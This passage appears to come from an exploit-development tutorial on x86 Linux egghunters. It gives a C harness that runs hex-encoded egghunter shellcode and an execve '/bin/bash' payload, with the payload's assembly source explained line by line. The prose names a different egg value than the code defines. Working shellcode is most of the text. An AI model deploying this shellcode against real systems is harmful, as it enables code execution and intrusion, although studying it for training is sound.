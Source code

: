 ## C Demo File
```C
//Egghunter Demo File
#include <stdio.h>
#include <string.h>

#define EGG "\x44\x43\x42\x41"

unsigned char egghunter[] = \
"\x31\xC9\xF7\xE1\x66\x81\xCA\xFF\x0F\x42\x8D\x5A\x04\x6A\x21\x58\xCD\x80\x3C\xF2\x74\xEE\xB8\x44\x43\x42\x41\x89\xD7\xAF\x75\xE9\xAF\x75\xE6\xFF\xE7";

unsigned char shellcode[] = \
EGG
EGG
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(void) {
    printf("Shellcode length: %d\n", strlen(shellcode));

    int (*ret)() = (int(*)())egghunter;

    ret();
}
```

It shouldn't matter how we get the `\x74\x30\x30\x77\x74\x30\x30\x77` prepended to our shellcode, as long as it's there. It is the egg repeated twice. 

The shellcode I use is a simple execve payload. The source of which can be found below:

```nasm
global _start

section .text

_start:
    XOR EAX, EAX
    PUSH EAX
    
    PUSH 0x68736162
    PUSH 0x2f6e6962
    PUSH 0x2f2f2f2f ; Stack contents: ////bin/bash\x00\x00\x00\x00

    MOV EBX, ESP    ; ESP now contains a pointer to the start of ////bin/bash...

    PUSH EAX        ; We need another NUL for ENVP's array
    MOV EDX, ESP    ; EDX now contains a pointer to the last NUL pushed

    PUSH EBX        ; argv, array of pointers starting with pointer to ////bin/bash
    MOV ECX, ESP    ; move pointer to this array to ECX
    
    MOV AL, 0x0B

    INT 0x80

```
